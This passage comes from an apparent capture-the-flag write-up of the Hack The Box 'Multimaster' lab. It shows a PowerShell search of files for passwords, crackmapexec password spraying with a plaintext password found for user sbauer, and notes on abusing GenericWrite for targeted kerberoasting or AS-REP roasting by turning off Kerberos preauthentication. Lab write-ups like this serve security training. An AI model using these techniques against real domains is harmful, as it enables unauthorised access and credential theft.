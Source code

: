 `ls -R -EA SilentlyContinue|?{$_|Select-String 'password'}|%{$_.FullName;}`

### Moving laterally to user3 - `sbauer`

```text
zweilos@kalimaa:~/htb/multimaster$ crackmapexec smb -u users -p passwords -d MEGACORP 10.10.10.179
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\shayna:D3veL0pM3nT! STATUS_LOGON_FAILURE

...snipped...
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\sbauer:D3veL0pM3nT!
```

I found a password for yet again another user: this time `sbauer`. Accordeing to my searches with Bloodhoud earlier, `jorden` should be next, then `Administrator`. we will see if my projected path from this user was correct.

> GenericWrite Generic Write access grants you the ability to **write to any non-protected attribute on the target object**, including “members” for a group, and “**serviceprincipalnames**” for a user Abuse Info Users With GenericWrite over a user, **perform a targeted kerberoasting attack**. See the abuse section under the GenericAll edge for more information

The following video explains how to exploit this: [https://www.youtube.com/watch?v=z8thoG7gPd0](https://www.youtube.com/watch?v=z8thoG7gPd0)

[http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/](http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/)

> we can change a victim’s userAccountControl to not require Kerberos preauthentication, grab the user’s crackable AS-REP, and then change the setting back:

[https://docs.microsoft.com/en-us/powershell/module/addsadministration/set-adaccountcontrol?view=win10-ps](https://docs.microsoft.com/en-us/powershell/module/addsadministration/set-adaccountcontrol?view=win10-ps)

Set-ADAccountControl -DoesNotRequirePreAuth 

> -DoesNotRequirePreAuth Indicates whether Kerberos pre-authentication is required to logon using the user or computer account. This parameter sets the ADS\_UF\_DONT\_REQUIRE\_PREAUTH flag of the Active Directory UAC attribute. The acceptable values for this parameter are:
>
> * $False or 0
> * $True or 1
